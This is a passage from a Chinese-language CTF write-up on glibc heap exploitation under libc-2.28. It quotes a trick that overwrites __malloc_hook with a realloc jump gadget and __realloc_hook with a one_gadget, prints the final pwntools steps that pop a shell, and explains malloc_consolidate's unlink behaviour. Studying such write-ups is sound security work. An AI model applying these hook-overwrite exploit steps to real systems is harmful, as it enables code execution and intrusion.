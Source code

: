 最后能控制top_chunk之后我们就要考虑将malloc_hook替换成什么了，matshao[师傅给了一种新的姿势，师傅的原话如下：](http://matshao.com/2019/03/28/Babayheap-2019/)

```
So I looked at every call realloc in libc-2.28.so, and finally found a perfect jump gadget. The gadget is at 0x105ae0, which can help to set [rsp+0x38] to 0, and then call realloc, when the program hit our one gadget point, [rsp+0x40] is exactly where we set 0 before!
So next time when you meet the situation in libc-2.28, feel confident to set __malloc_hook to libc+0x105ae0 and __realloc_hook to second one gadget.
```

简单而言，因为libc-2.28环境下直接覆盖malloc_hook为one_gadget不起作用了，师傅找了一种通用的新姿势，通过两个gadget达成利用。

get_shell的最后一步如下：

```
#get shell
add(0x50)
edit(15,0x20,'x00'*0x10 + p64(one_gadget) + p64(jump_gadget))

delete(12)
#malloc once more to get shell.
p.recvuntil('Command: ')
p.sendline("1")
p.recvuntil('Size: ')
p.sendline("1")

p.sendline('ls')
```

#### <a class="reference-link" name="trick%201"></a>trick 1

这里需要有一点进行注意的，就是在delete(7)、delete(3)的时候，顺序不能变，因为是通过malloc_consolidate()合并的fastbin chunk，那么我们来看一下源码分析一下原因。

```
check_inuse_chunk(av, p);
    nextp = p-&gt;fd;  #按照fd的顺序遍历fastbin   

    /* Slightly streamlined version of consolidation code in free() */
    size = chunksize (p);
    nextchunk = chunk_at_offset(p, size);
    nextsize = chunksize(nextchunk);

    #pre_inuse为0,向前合并
    if (!prev_inuse(p)) `{`   
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    `}`
```

我们可以看到，overlapped 是通过chunk_7向前合并到chunk_3构成的，而源码显示其是通过unlink合并的chunk_3，并且我们知道，unlink的时候chunk_3必须要满足fd、bk的限制，最好的办法是将chunk_3在free chunk_7之前放入unsorted bin中去。
